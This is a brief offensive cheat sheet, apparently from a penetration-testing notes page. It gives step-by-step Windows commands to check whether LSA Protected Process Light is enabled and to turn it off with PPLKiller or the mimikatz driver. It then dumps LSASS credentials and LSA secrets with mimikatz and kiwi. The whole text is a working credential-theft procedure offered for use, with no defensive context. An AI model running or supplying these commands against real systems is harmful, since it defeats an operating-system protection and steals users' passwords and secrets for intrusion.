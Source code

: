 ### Check if PPL is enabled
CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL`

### Disable PPL using PPLKiller

- Make sure the session you are running with has SYSTEM privleges.
- We need to upload the driver to the path: `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.
- Then we will disable PPL: `.\PPLKiller.exe /disablePPL <LSASS PID>`
- Now we can use mimikatz to dump the lsass process: `load kiwi` - `creds_all` - `lsa_dump_secrets`.

### Disable PPL using mimikatz
- Transfer both `mimikatz.exe` and `mimidrv.sys` to the same directory, e.g `C:\Windows\Tasks`.
- Run: `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "sekurlsa::logonpasswords" "exit"`
- Restore: `.\mimikatz.exe "!processprotect /process:lsass.exe" "!-" "exit"`
